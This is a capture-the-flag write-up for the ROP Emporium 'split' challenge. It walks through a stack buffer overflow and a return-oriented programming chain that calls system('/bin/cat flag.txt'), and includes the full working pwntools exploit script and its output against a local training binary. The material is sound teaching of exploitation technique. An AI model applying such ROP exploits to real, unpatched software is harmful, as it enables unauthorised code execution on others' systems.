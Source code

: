 # split

_useful isn't that useful here._

This one is slightly more complicated, but not by much. Here's where we really get into using gadgets to `ret` our way to the finish line.

Opening the file in `rizin` (I use Cutter because I'm a worthless asshole too stupid to use the command line) we see three things.

```text
sym.main
sym.pwnme
sym.usefulFunction
```

Cool. This looks like last time. Let's check `pwnme` and `usefulFunction`:

```c
void pwnme(void)
{
    char buf [32];
    
    memset(buf, 0, 0x20);
    puts("Contriving a reason to ask user for data...");
    printf(0x40083c);
    read(0, buf, 0x60);
    puts("Thank you!");
    return;
}
```

```c
void usefulFunction(void)
{
    system("/bin/ls");
    return;
}
```

This looks a lot like last time, but now we have a problem. `usefulFunction` calls `system()` like we hope it would, but it runs `ls` instead of `cat flag.txt` like we hoped.

Alright. Cool. Let's take stock.

We need to be able to control two main things:

- the call to `system`,
- the parameter passed to it.

And we do this by overwriting the stack.

We can do this with [return-oriented programming](https://en.wikipedia.org/wiki/Return-oriented_programming). Essentially, we look for gadgets - small pieces of code that usually end with a `ret` instruction. This takes advantage of how `ret` works: It pops off the stack and into `rip`, and jumps to it. This allows us to chain little bits of code together to run arbitrary code, setting up for us to pop our shell. It works like this:

1. We overwrite the saved `rip` with the address of a gadget by taking advantage of a buffer overflow.
2. When `ret` in the gadget is executed, we pop that off the stack and jump to it, executing whatever code before `ret`-ing again.
3. If we fed in the address of another gadget before that, we'll pop _that_ off, and execute _that_ gadget, and so on and so forth.
4. Rinse and repeat until profit.

Great. So we just overwrite the stack with addresses. That settles our call to `system`. What's not settled is the parameter we need to pass to it.

This is where gadgets come into play. We can run `strings` to check for any strings that we can use:

```text
$ strings split | grep bin

/bin/ls
/bin/cat flag.txt
```

Interesting. He was kind enough to leave that in there.

Looking at Cutter, we can figure out the address of that string.

```text
;-- str.bin_cat_flag.txt:
;-- usefulString:
0x00601060          .string "/bin/cat flag.txt" ; len=18
```

It even has the `usefulString` symbol attached to it. How nice.

Great. We have the string to pass, and we have the call to `system` (thankfully imported by `usefulFunction`). Now we just need to mash them together in glorious ROP glory.

The [AMD64 System V calling convention](https://wiki.osdev.org/System_V_ABI#x86-64) states that parameters to functions are passed in registers, specifically `rdi`, `rsi`, `rdx`, `rcx`, `r8`, and `r9`, with any additional parameters pushed on the stack in reverse order. Knowing this, we need to have `rdi` point to our `usefulString` right before the call to `system`.

We can do this with a gadget. Bet you were wondering when we were gonna circle back to this.

Since we control the stack, we have to pass in this address on the stack and somehow get it into `rdi`. Of course, we can do this with the `pop` instruction.

So, we're looking for a gadget that executes `pop rdi` and then `ret`. This pops the top of the stack into `rdi`, then returns. Luckily, Cutter has this built right in.

```text
[0x00400742]> /a pop rdi, ret
Searching 1 byte in [0x601090-0x6010d8]
hits: 0
Searching 1 byte in [0x400000-0x4009e0]
hits: 12
Searching 1 byte in [0x601072-0x601088]
hits: 0
Searching 1 byte in [0x600e10-0x601072]
hits: 0
Searching 1 byte in [0x100000-0x1f0000]
hits: 0
fs hits
0x004003e9 hit0_0 5f
0x004003ea hit0_1 5f
0x004003ef hit0_2 5f
0x004003f5 hit0_3 5f
0x00400400 hit0_4 5f
0x00400407 hit0_5 5f
0x00400408 hit0_6 5f
0x0040040d hit0_7 5f
0x00400413 hit0_8 5f
0x00400414 hit0_9 5f
0x004007c3 hit0_10 5f
0x00400801 hit0_11 5f 
```

So many hits. Let's pick `0x4007c3` as our gadget of choice, since looking at Cutter, we know it's in a region marked as executable.

But when we navigate to the function:

```text
0x004007c0      415e                   pop r14
0x004007c2      415f                   pop r15
0x004007c4      c3                     ret
```

What gives?

Turns out, because x86_64 is a multibyte instruction set, instructions don't have to be aligned. We can just jump right into the middle of an instruction, and the CPU, blindly assuming it's at the start of an instruction, will happily interpret it as a completely different instruction.

We can always do a sanity check to make sure we're not misinterpreting this. When we assemble this gadget into machine code:

```python
>>> from pwn import *
>>> context.arch = "amd64"
>>> asm("pop rdi\nret")
b'_\xc3' # the byte representation of '_' is 0x5f, so this is 0x5f 0xc3.
```

Looking at `0x4007c3`, we see `0x5f 0xc3`. Exactly what we need.

Cool. We can do our exploit now.

```python
from pwn import *

# this is important so we can parse the ELF correctly
context.arch = "amd64"
elf = context.binary = ELF('./split')

# overflow the stack with these
POP_RDI_GADGET = p64(0x4007c3)
CATFLAG = p64(0x601060)
# interestingly enough, this is the address of system in the PLT. 
# what's the PLT, you ask? research it, it's important.
SYSTEM = p64(elf.symbols.system)

# overflow the buffer
payload = b'A' * 40

# when pwnme returns, pop this address into rip and jump to it
payload += POP_RDI_GADGET
# put this on the stack to be popped into rdi by above gadget
payload += CATFLAG
# when said gadget returns, pop this into rip and jump to it
payload += SYSTEM

conn = process(elf.path)

conn.recvuntil(b'> ')

conn.send(payload)

print(conn.recvall())
```

Running it:

```text
$ python exploit.py

[*] '/home/sammy/Projects/binexp/ropemporium/split/split'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/sammy/Projects/binexp/ropemporium/split/split': pid 193724
[+] Receiving all data: Done (44B)
[*] Process '/home/sammy/Projects/binexp/ropemporium/split/split' stopped with exit code -11 (SIGSEGV) (pid 193724)
b'Thank you!\nROPE{a_placeholder_32byte_flag!}\n'
```

¯\\\_(ツ)_/¯
